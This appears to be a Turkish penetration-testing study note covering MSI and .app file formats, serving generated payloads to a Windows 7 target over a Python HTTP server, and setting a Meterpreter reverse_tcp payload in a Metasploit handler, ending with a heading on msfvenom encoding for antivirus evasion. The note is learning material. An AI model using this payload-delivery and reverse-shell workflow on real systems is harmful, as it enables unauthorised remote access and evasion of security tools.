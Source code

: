 **MSI dosyası**, **Windows Installer Paketi** anlamına gelir. Windows işletim sisteminde programları ve güncellemeleri kurmak için kullanılan bir dosya biçimidir. MSI dosyaları, bir programın tüm gerekli dosyalarını ve kurulum bilgilerini tek bir dosyada paketler.

---
**OSX-app dosyası**, macOS işletim sisteminde bir uygulama paketini temsil eden bir dosya biçimidir. Bu dosyalar, bir uygulamayı çalıştırmak için gereken tüm dosyaları ve bilgileri tek bir pakette birleştirir. OSX-app dosyaları, .app uzantısına sahiptir.

---
## Linux için de Payload'ları ürettik
### Uzantı elf olmalı
![[Pasted image 20240227122901.png]]

## chmod +x ile ikisini de executable yApmak gerekir çalışması için
![[Pasted image 20240227123617.png]]

---
## Bunları karşıya normal python http server ile göndereceğiz. 
### python3 -m http.server 80
#python-server 

### Win 7 Explorer
![[Pasted image 20240227124112.png]]


### Multi handler da -a x64 olarak yazdığımız bolumu payload set yaparken içine ekle
set PAYLOAD windows/x64/meterpreter/reverse_tcp

![[Pasted image 20240227124801.png]]

![[Pasted image 20240227124837.png]]

---

---


## Encoding Payloads With Msfvenom
#av-evasion
#msfvenom-encoding
#msfvenom-av-evasion
